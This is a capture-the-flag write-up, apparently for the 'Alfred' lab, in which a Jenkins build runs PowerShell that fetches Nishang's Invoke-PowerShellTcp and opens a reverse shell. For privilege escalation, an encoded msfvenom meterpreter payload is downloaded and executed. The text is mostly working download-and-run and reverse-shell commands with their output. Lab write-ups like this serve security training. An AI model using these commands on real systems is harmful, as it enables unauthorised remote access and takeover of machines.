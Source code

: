`wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`

![](https://imgur.com/62hUR1Fl.png)

`powershell invoke-expression (New-Object Net.WebClient).DownloadString('http://10.8.131.89/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.131.89 -Port 9000`

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.117.149 - - [20/Nov/2020 04:15:10] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```
Press `build now` on the sidebar
```bash
┌──(cyph3r㉿kali)-[~/Documents/thm/alfred]
└─$ nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.8.131.89] from (UNKNOWN) [10.10.117.149] 49282
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>

```
### User flag
```bash
PS C:\Users\bruce\Desktop> type user.txt
79007axxxxxxxxxxxxxae2a0
PS C:\Users\bruce\Desktop>
```
## Privilege escalation
###  msfvenom
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.131.89 LPORT=4444 -f exe -o rshell.exe
```
```bash
powershell invoke-expression "(new-object system.net.webclient).downloadfile('http://10.8.131.89/rshell.exe','rshell.exe')"
```
```bash
PS C:\Program Files (x86)\Jenkins\workspace\project>PS C:\Program Files (x86)\Jenkins\workspace\project> dir


    Directory: C:\Program Files (x86)\Jenkins\workspace\project


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        11/20/2020   9:25 AM      73802 rshell.exe                        


PS C:\Program Files (x86)\Jenkins\workspace\project> powershell start-process "rshell.exe"
PS C:\Program Files (x86)\Jenkins\workspace\project>
```
![](https://imgur.com/PO8oDJil.png)
### msfconsole
```bash
meterpreter > ps

Process List
============
```